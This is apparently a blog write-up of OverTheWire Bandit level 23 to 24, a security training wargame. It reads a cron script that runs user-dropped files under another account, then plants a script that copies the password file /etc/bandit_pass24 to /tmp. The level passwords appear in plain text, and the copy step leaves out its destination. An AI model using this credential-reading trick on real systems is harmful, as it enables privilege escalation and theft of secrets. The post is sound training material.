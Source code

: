 ```yaml
---
layout: post
author: mike
series: bandit
categories: bandit 
---
```


### Level 23 -> 24
#### Game Instructions
> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

>NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

>NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

This one looks a bit similar to the previous 2 levels... Let's dig in!

```
ssh -p 2220 bandit23@bandit.labs.overthewire.org
password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

As the hint says: We need to investigate the `/etc/cron.d` file to see what is happening:
```sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

We can see that the file is systematically (every 60 sceonds) running every script **as root** in the `/var/spool/$myname` directory and immediately deleting the file after executing.

Because the script is being run as root, we can exploit this if we can manage to get a script in the `/var/spool/bandit24` directory that spits on the password.
First, let's create a directory to do some work in:
`mkdir /tmp/myfancydirectory`
And a file that the password will be copied to:
`touch /tmp/myfancydirectory/thisisthepassword`
Next, let's whip up a simple script:
`nano istealyourpass.sh`
```
#!/bin/bash

cat /etc/bandit_pass24 > /tmp/myfancydirectory/thisisthepassword
```
This will copy the password to a file called `thisisthepassword`
Let's `chmod` it so the script can execute it
`chmod 777 /tmp/myfancydirectory/istealyourpass`
Now let's quickly copy the file to the `/var/spool/bandit24` directory so it can be picked up
`cp /tmp/myfancydirectory/istealyourpass`
And we wait for it to run.
After a little bit we check the directory and bam we have the password:
New password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
